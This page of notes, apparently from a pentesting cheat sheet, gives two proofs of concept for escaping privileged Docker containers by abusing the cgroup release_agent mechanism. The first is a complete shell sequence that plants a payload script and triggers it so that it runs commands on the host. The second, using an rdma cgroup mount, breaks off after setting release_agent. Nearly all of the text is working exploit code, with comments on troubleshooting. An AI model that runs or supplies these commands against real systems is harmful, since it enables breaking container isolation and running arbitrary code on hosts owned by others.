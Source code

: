 #### Privileged Escape Abusing existent release_agent () - PoC1

Initial PoC
```
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

# Finds + enables a cgroup release_agent
# Looks for something like: /sys/fs/cgroup/*/release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# If "d" is empty, this won't work, you need to use the next PoC

# Enables notify_on_release in the cgroup
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release
# If you have a "Read-only file system" error, you need to use the next PoC

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent

# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c

# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1

# Reads the output
cat /o
```

#### Privileged Escape Abusing created release_agent () - PoC2

Second PoC
```
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# Mounts the RDMA cgroup controller and create a child cgroup
# This technique should work with the majority of cgroup controllers
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the RDMA cgroup controller, try change rdma to memory to fix it
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# If mount gives an error, this won't work, you need to use the first PoC

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent

```